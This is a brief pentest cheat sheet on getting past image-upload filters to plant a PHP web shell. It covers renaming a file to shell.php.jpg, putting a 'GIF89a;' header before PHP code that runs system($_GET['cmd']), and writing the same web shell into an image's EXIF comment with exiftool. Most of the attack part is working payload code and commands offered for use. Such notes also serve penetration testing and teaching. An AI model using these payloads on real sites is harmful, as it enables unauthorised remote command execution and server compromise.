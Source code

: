 # Bypass image upload

Here is the definite guide:

http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html

## Rename it

But instead we can just rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

## GIF89a;
If they check the content.
Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## In image
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data.
Then I had to rename the file

mv lo.jpg lo.php.jpg